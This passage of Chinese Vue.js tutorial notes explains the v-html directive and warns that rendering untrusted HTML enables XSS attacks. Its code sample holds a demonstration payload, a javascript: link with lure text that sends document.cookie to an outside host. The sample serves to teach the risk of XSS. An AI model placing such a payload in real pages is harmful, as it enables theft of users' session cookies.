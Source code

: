 ### 3.案例

<img src="./images/image-20211221113301541.png" alt="image-20211221113301541" />

## 4.10：v-html

### 1.简介

+ 作用：向指定节点中渲染包含html结构的内容。

+ 与插值语法的区别：
    + v-html会替换掉节点中所有的内容，{{xx}}则不会。
    + v-html可以识别html结构。

+ 严重注意：v-html有安全性问题！！！！
    + 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
    + 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

### 2.代码

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
